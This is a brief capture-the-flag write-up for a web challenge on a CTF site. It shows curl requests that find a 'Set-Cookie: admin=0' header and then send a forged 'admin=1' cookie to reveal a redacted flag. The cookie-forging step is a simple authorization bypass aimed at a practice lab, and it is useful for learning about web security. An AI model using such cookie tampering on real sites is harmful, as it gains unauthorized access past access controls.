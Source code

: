 http://hack.bckdr.in/CKK/index.php

Let's check out the page:

```
$ curl http://hack.bckdr.in/CKK/index.php
<html>
	<head>
	</head>
	<body>
		<div>
		Authorizes Persons Only
		</div>
	</body>
</html>
```

And let's make a `HEAD` request to get the headers:

```
$ curl -I http://hack.bckdr.in/CKK/index.php
HTTP/1.1 200 OK
Date: Tue, 11 Oct 2016 22:10:45 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.17
Set-Cookie: admin=0
Content-Type: text/html
```

Hmm, the `admin` cookie looks interesting...

```
$ curl -b admin=1 http://hack.bckdr.in/CKK/index.php

<html>
	<head>
	</head>
	<body>
		<div>
			flag is <redacted>
		</div>
	</body>
</html>
```

Boom!
